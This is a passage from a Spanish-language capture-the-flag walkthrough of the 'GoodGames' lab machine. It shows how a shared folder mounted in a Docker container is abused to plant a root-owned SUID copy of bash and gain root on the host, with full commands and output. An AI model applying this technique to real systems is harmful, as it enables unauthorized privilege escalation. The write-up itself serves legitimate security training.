    inet6 dead:beef::250:56ff:feb0:2c3b/64 scope global dynamic mngtmpaddr 
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:feb0:2c3b/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:24:57:a9:b9 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
4: br-99993f3f3b6b: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:97:47:cd:45 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.1/16 brd 172.19.255.255 scope global br-99993f3f3b6b
       valid_lft forever preferred_lft forever
    inet6 fe80::42:97ff:fe47:cd45/64 scope link 
       valid_lft forever preferred_lft forever
6: vethce209ba@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-99993f3f3b6b state UP group default 
    link/ether fa:4a:69:28:56:f0 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::f84a:69ff:fe28:56f0/64 scope link 
       valid_lft forever preferred_lft forever
~~~
Con acceso al servidor original ya se puede analizar todo a mas detalle.

### Aprovechando Docker carpeta monstada
Como se menciono anteriormente, se puede ver la carpeta original del usuario "augustus" que contiene la misma información que se vio en el contenedor docker.
~~~bash
augustus@GoodGames:~$ ls -la
total 24
drwxr-xr-x 2 augustus augustus 4096 Nov  3  2021 .
drwxr-xr-x 3 root     root     4096 Oct 19  2021 ..
lrwxrwxrwx 1 root     root        9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus  807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus   33 Dec 31 02:42 user.txt
~~~
Por lo que esta carpeta si esta montada dentro del contenedor.
Antes que buscar permisos privilegiados en el sistema, se me ocurre realizar un ataque distinto.

Normalmente cuando se tienen archivos o carpetas montadas siempre se debe de tener la precausion de que no se pueda modificar las propiedades de archivos en un sentido u otro, en el contexto de donde se encuentra la carpeta original y donde se encuentra montada.

Ejemplificado lo mencionado, en este contexto tengo la carpeta de "augustus" en el servidor original y montada en el contenedor.
Todo lo que cree dentro de mi carpeta se creará con "augustus" como propietario y se reflejara como user 1000 en el contenedor, pero si bien recuerdo yo tengo permisos de root en el contenedor, asi que si no se encuentra bien sanitizado, cualquier archivo que cree "augustus" en la carpeta montada, dentro del contenedor puedo cambiar las propiedades para que el propietario sea root en lugar del user 1000 y al entrar al servidor original se podria ver que el archivo ahora pertenece al usuario root y aprovecharse de ello.

***NOTA: Este ataque es mas comun en carpetas monstadas por NFS, pero la logica es la misma para todos los recursos montados compartidos, en este caso con docker funcionaria de la misma manera***

Para realizar el ataque se la puede hacer de varias formas, en este caso explicare la forma mas sencilla, primero desde el servidor original se copia la "bash" en la carpeta augustus.
~~~bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls
bash  user.txt
~~~
Ahora se debe salir del servidor para entrar al contenedor.
~~~bash
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/home/augustus# ls -la
total 1184
drwxr-xr-x 2 1000 1000    4096 Dec 31 04:45 .
drwxr-xr-x 1 root root    4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root       9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000     807 Oct 19  2021 .profile
-rwsr-xr-x 1 1000 1000 1168776 Dec 31 04:45 bash
-rwsr-xr-x 1 root root    8744 Dec 31 04:43 shell
-rw-r--r-- 1 root root     147 Dec 31 04:43 shell.c
-rw-r----- 1 root 1000      33 Dec 31 02:42 user.txt
root@3a453ab39d3d:/home/augustus# chown root:root bash 
root@3a453ab39d3d:/home/augustus# chmod u+s bash
root@3a453ab39d3d:/home/augustus# ls -la
total 1184
drwxr-xr-x 2 1000 1000    4096 Dec 31 04:45 .
drwxr-xr-x 1 root root    4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root       9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000     807 Oct 19  2021 .profile
-rwxr-xr-x 1 root root 1168776 Dec 31 04:45 bash
-rwsr-xr-x 1 root root    8744 Dec 31 04:43 shell
-rw-r--r-- 1 root root     147 Dec 31 04:43 shell.c
-rw-r----- 1 root 1000      33 Dec 31 02:42 user.txt
~~~
Dentro el contenedor se debe cambiar al propietario de "bash" para que sea root y darle permisos SUID.
Finalmente se debe de volver a conectar al servidor por ssh y verificar que el propietario ahora sea root.
~~~bash
augustus@GoodGames:~$ ls -la
total 1184
drwxr-xr-x 2 augustus augustus    4096 Dec 31 04:45 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
-rwsr-xr-x 1 root     root     1168776 Dec 31 04:45 bash
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rwsr-xr-x 1 root     root        8744 Dec 31 04:43 shell
-rw-r--r-- 1 root     root         147 Dec 31 04:43 shell.c
-rw-r----- 1 root     augustus      33 Dec 31 02:42 user.txt
~~~
Ahora que se ve a root como propietario, se puede ejecutarlo con permisos SUID y ser root.
~~~bash
augustus@GoodGames:~$ ./bash -p
bash-5.0# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) groups=1000(augustus)
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ahora que ya se tiene acceso a root, solo es cosa de leer la root flag.
~~~bash
bash-5.0# cd /root
bash-5.0# ls
root.txt
bash-5.0# cat root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

